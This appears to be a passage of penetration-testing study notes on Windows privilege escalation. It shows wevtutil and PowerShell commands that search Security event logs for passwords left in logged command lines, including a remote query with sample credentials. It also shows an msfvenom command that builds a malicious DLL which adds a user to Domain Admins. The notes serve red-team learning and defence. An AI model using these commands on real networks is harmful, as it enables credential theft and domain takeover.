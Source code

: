 Goal  
Gain access to and analyze Windows security event logs for process creation and command-line usage to detect suspicious behavior.

Purpose  
Help defenders or attackers (during red teaming) understand how command-line auditing works, what can be logged, and how to access or evade detection via these logs. Also shows how low-budget setups can still catch attackers.

Command

1. **Check group membership (Event Log Readers)**

```
net localgroup "Event Log Readers"
```
    
2. **Search Security log with `wevtutil`**  
    Basic search for command-line entries with `/user`:
    
```
wevtutil qe Security /rd:true /f:text | findstr "/user"
```

1. **Use alternate credentials with `wevtutil`**  
    Useful for remote log access with another user's credentials:
    
```
wevtutil qe Security /rd:true /f:text /r:share01 /u:julie.clay /p:Welcome1 | findstr "/user"
```
    
4. **Search process creation logs (Event ID 4688) with PowerShell**  
    Admin rights required unless registry permissions are changed:
    
```
Get-WinEvent -LogName Security | where { $_.ID -eq 4688 -and $_.Properties[8].Value -like '*/user*' } | Select-Object @{name='CommandLine';expression={ $_.Properties[8].Value }}
```
    

Notes
- Auditing process command-line logging must be enabled.
- Logs can leak passwords passed as arguments (e.g., `net use ... /user:... password`).
- Adding users to the Event Log Readers group lets them read logs without full admin access.
- Tight AppLocker rules can block dangerous commands even if logging is bypassed.
- Common commands attackers use include: `tasklist`, `systeminfo`, `ipconfig`, `dir`, `net view`, `ping`, `net use`, `wmic`, etc.



## DNS Admins
Generating Malicious DLL
We can generate a malicious DLL to add a user to the `domain admins` group using `msfvenom`.

```shell
msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll
```

